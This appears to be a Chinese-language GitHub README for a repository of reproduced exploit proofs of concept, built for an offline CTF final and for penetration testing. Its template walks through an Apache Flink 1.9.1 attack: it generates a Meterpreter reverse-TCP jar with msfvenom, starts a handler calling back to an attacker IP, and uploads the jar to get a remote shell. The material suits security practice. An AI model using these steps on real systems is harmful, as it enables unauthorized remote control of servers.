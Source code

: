 # poc-hub
收集我复现过的各种poc于此处，同时编写工具自动化检测并利用

此项目源于要参加一场线下的CTF决赛，由于断网，故需要大量本地poc，考虑到也可为日后的渗透测试工作提供便利

当前仓库没有漏洞分析，只有POC，都是经过手动验证过的，可武器化且开箱即用的

漏洞复现模板如下：
```
# 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"

wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
![image](./0.png)  
浏览器访问，出现下图所示，表示成功启动  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5

msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp  
set lhost 172.16.35.128  
set lport 9999  
run  
浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
![image](./2.png)  
再点击下图所示  
![image](./3.png)  
此时，meterpreter已经收到session，如下图  
![image](./4.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
```
